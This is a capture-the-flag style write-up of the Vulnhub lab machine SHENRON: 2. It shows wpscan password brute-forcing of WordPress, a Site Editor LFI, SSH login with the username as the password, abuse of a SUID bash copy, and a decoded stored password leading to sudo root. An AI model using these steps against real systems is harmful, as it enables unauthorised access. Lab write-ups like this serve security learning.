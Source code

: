 ```yaml
---
layout: post
title:  "Vulnhub: SHENRON: 2"
date:   2021-04-12 21:00:00 +1100
category: hacking
---
```


## SHENRON: 2
This is [SHENRON: 2](https://www.vulnhub.com/entry/shenron-2,677/) from Vulnhub. It says difficulty is 'beginner'. It took me about an hour.

## Ports
SSH on 22, plus HTTP on ports 80 and 8080 - hey, that's a lot like the last one!

## HTTP/80
Looks to be a pretty basic template page with nothing juicy. Moving on...

## HTTP/8080
Wordpress. I add *shenron* to /etc/hosts and run wpscan; trivial password hmmm.

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/shenron2]
└─# wpscan -U admin -P /usr/share/wordlists/fasttrack.txt --url http://shenron:8080 
# etc etc
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / admin                                                                                                                  
Trying admin / god Time: 00:00:03 <========================                                             > (130 / 352) 36.93%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: admin
{% endhighlight %}

Okay well that was easy, now what? We can't upload a plugin (can't copy it to the destination directory), and we can't edit the templates (all set as non-writeable). There are several non-standard plugins installed, being:

>Classic Editor  
>Elementor, and  
>Site Editor

Checking out searchsploit reveals issues with Site Editor and Elementor, but for the version we have it's only *Site Editor*, which has an [LFI](https://www.exploit-db.com/exploits/44340) vulnerability. I check /etc/passwd first and then look for SSH keys, nope. Can't read any logs, no /proc/self/environ, can't read wp-config. I run Turbo Intruder with a nice big list of files and get plenty of hits but nothing that will leverage into RCE. Now what - this was supposed to be beginner level?

Well, we've got two users - Jenny and Shenron. Surely we can't just SSH in with the username as the password?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/shenron2]
└─# ssh jenny@192.168.1.197                                                                                                          130 ⨯
jenny@192.168.1.197s password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.8.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

30 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Mon Apr  5 20:18:23 2021 from 192.168.1.6
jenny@shenron-2:~$
{% endhighlight %}

Oh wait yes we can. Not sure how I feel about this. Anyway....

## Shenron
Well, there's nothing useful in wp-config.php anyway. Linpeas doesn't highlight it, but it does find a non-standard SUID binary:

>-rwsr-xr-x 1 root root             17K Apr  6 00:36 /usr/bin/Execute

I wonder what it does?

{% highlight shell %}
jenny@shenron-2:/dev/shm$ file /usr/bin/Execute
/usr/bin/Execute: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cedff63201c18a7326f645ca521f0d47eb0b85b7, for GNU/Linux 3.2.0, not stripped
jenny@shenron-2:/dev/shm$ strings /usr/bin/Execute

Command 'strings' not found, but can be installed with:

apt install binutils
Please ask your administrator.

jenny@shenron-2:/dev/shm$ /usr/bin/Execute
jenny@shenron-2:/dev/shm$ id
uid=1001(jenny) gid=1001(jenny) groups=1001(jenny)
{% endhighlight %}

So ... nothing? Nah, can't be right.

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/shenron2]
└─# scp jenny@192.168.1.197:/usr/bin/Execute execute 
# etc
┌──(root💀kali)-[/opt/vulnhub/shenron2]
└─# strings execute 
# etc
/usr/bin/cp /bin/bash /mnt/bash; /usr/bin/chmod 777 /mnt/bash; /usr/bin/chown shenron:shenron /mnt/bash; /usr/bin/chmod u+s /mnt/bash
# much more etc
{% endhighlight %}

Right. So, it's making a copy of /bin/bash, putting it in /mnt/bash and adding the SUID bit. So if we do this:

{% highlight shell %}
jenny@shenron-2:/dev/shm$ id
uid=1001(jenny) gid=1001(jenny) groups=1001(jenny)
jenny@shenron-2:/dev/shm$ /mnt/bash -p
bash-5.0$ id
uid=1001(jenny) gid=1001(jenny) euid=1000(shenron) groups=1001(jenny)
{% endhighlight %}

We get a new EUID.

## Root
With out newfound powers of EUID we can do some more enumeration and find (and read) a file owned by Shenron:

{% highlight shell %}
bash-5.0$ ls -lash
total 16K
4.0K drwx------  2 shenron shenron 4.0K Apr  5 19:13 .
4.0K drwxr-xr-x 16 shenron shenron 4.0K Apr  6 00:43 ..
4.0K -rwx------  1 shenron shenron   32 Apr  5 19:13 local.txt
4.0K -rwx------  1 shenron shenron   97 Apr  5 19:10 .pass
{% endhighlight %}

This contains his password, base32 encoded:

>bash-5.0$ cat .pass  
KNUEK3SSN5HFG2CFNZJG6TSTNBCW4UTPJZJWQRLOKJXU4U3IIVXFE32OIBJWQRLOKJXU4I2TNBCW4UTPJZIGCU3TK5XVEZAK

Which is:

>ShEnRoNShEnRoNShEnRoNShEnRoNShEnRoN@ShEnRoN#ShEnRoNPaSsWoRd  

And since *shenron* is in the sudoers group, we're done:

{% highlight shell %}
bash-5.0$ su shenron
Password: 
shenron@shenron-2:~/Desktop$ sudo su
[sudo] password for shenron: 
root@shenron-2:/home/shenron/Desktop# cd /root
root@shenron-2:~# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
shenron-2
Monday 12 April 2021 06:21:49 PM IST
root@shenron-2:~#
{% endhighlight %}

And now it's bedtime.
